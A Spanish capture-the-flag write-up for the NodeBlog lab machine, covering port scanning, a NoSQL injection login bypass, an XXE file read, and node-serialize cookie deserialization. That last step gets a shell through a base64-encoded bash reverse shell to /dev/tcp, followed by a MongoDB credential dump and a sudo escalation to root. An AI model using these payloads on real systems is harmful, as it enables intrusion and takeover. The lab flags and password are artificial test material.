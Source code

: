 ```yaml
---
title: 'CTF - NodeBlog WriteUP'
date: '2022-02-01'
tags: ["#Import 2022-12-20 21:06"]
draft: true
authors: ['default']
summary: nmap me cuesta descubrir cosas He tenido que ralentizar el comando de descubrir todos los pueortos 
---
```


nmap me cuesta descubrir cosas. He tenido que ralentizar el comando de descubrir todos los pueortos porque no me encontraba ninguno más que el 22, A si que lo he lanzado normal


```
nmap -p- --open -sT -vvv -n -Pn 10.10.11.139 -oG allPorts
```
y despues


```
nmap -p22,5000 -sCV -n -Pn -vvv 10.10.11.139 -oN targeted
# Scanned at 2022-02-01 20:20:50 CET for 15s
# PORT     STATE SERVICE REASON         VERSION
# 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
# | ssh-rsa
# |   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
# | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
# |   256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
# |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
# 5000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
# |_http-title: Blog
# | http-methods: 
# |_  Supported Methods: GET HEAD POST OPTIONS
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Foto

![](https://blog.ikerocio.com/content/images/2022/02/Screenshot\_2.png)Tiene un login.

Probamos sqlmap y no tiene inyecciones sql.


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "this is not a json"





Error



```
SyntaxError: Unexpected token t in JSON at position 0  
 &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)  
 &nbsp; &nbsp;at createStrictSyntaxError (/opt/blog/node_modules/body-parser/lib/types/json.js:158:10)  
 &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:83:15)  
 &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18  
 &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)  
 &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)  
 &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)  
 &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)  
 &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)  
 &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
```




```
Esta intentando parsear json. nosql injection?


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "{\"user\":,\"password\":{\"\$gt\":\"\"}}"
# funciona
```
Con burpsuite/repeater prueblo a hacer la llamada y mando al navegador la sesion iniciada

fotos de burpsuite y el boton upload

Subo un archivo normal y me sale esto si veo el html


```
Invalid XML Example: 

 Example Post
 Example Description
 Example Markdown

```
Veo que se pueden escribir articulos con 

* title
* description
* markdown

Me genero un xml 


```

hola
aaa
md

```
Y me lleva a la ventana de articulo con todo relleno.

Encuentro informacion sobre una vulnerabilidad de XML External entity (https://hackmd.io/@Chivato/rkSqk9gbL) y veo que se puede ejecutar codigo


```
xml version="1.0" encoding="ISO-8859-1"? 
 ]

hola
aaa
&xxe;

```
![](https://blog.ikerocio.com/content/images/2022/02/Screenshot\_4.png)Es vulnerable. Modifico el script para probar otras cosas.

Me acuerdo de que cuando me daba el error de json, me daba una ruta donde estaba la app /opt/blog

Encuentro que un archivo tipico de nodejs es el server.js e imprimo su contenido /opt/blog/server.js

Veo que usa node-serializer [https://snyk.io/test/npm/node-serialize#:~:text=node-serialize serializes an object,into the unserialize() function](https://snyk.io/test/npm/node-serialize#:~:text=node%2Dserialize%20serializes%20an%20object,into%20the%20unserialize()%20function).

En server.js veo que el serializador parsea la cookie y la vulnerabilidad esta en que en la cookie puedes poner codigo que ejecuta el programa.

con burpsuite hago pruebas y veo que a veces ejecuta codigo y a veces no. Como hay serializaciones y demas, escribo el codigo en base64 intentando que no haya ni '+' ni '=' poniendo espacios.


```
❯ echo -n "bash -i & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYx
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgMD4mMQ==
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgIDA+JjE=
❯ echo -n "bash -i  &  /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx

# Copio el siguiente código en la cookie de burpsuite
# echo -n YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx | base64 -d | bash
```
![](https://blog.ikerocio.com/content/images/2022/02/Screenshot\_5.png)Antes de enviarlo, codifico el contenido de auth= a URLEncoding

Me pongo en esuccha en mi equipo con netcat y estoy dentro.

Entramos a mongodb y buscamos informacion del usuario


```
❯ admin@nodeblog:/opt/blog$ mongo 127.0.0.1
❯ show databases
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
❯ use blog
switched to db blog
❯ show collections
articles
users
❯ db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
Tenemos la contraseña. Vamos a probar a ejecutar 


```
❯admin@nodeblog:/opt/blog$ sudo su -
[sudo] password for admin: 
❯ root@nodeblog:~# whoami
root
❯ root@nodeblog:~# cat /home/admin/user.txt
e83b0edb016a7146e2e5aa00f4416730
❯ root@nodeblog:~# cat root.txt
b38f827567b54906d52439592c719952
```
